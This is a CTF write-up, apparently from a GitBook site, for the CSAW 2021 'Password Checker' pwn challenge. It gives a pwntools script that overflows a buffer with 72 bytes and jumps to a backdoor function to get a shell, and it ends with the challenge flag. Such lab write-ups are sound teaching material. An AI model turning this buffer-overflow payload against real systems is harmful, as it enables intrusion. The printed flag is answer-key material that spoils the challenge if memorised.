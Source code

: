 ```yaml
---
name: Password Checker (2021)
event: CSAW CTF 2021
category: Pwn
description: Writeup for Password Checker (pwn) - CSAW CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Password Checker

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/1Dw21NoxXjE/0.jpg)](https://youtu.be/1Dw21NoxXjE?t=315s "CSAW 2021: Password Checker")

## Challenge Description

> Charlie forgot his password to login into his Office portal. Help him to find it.

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './password_checker'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 72

# Start program
io = start()

# Build the payload
payload = flat([
    offset * "A",
    elf.symbols.backdoor
])

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter('>', payload)

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}`
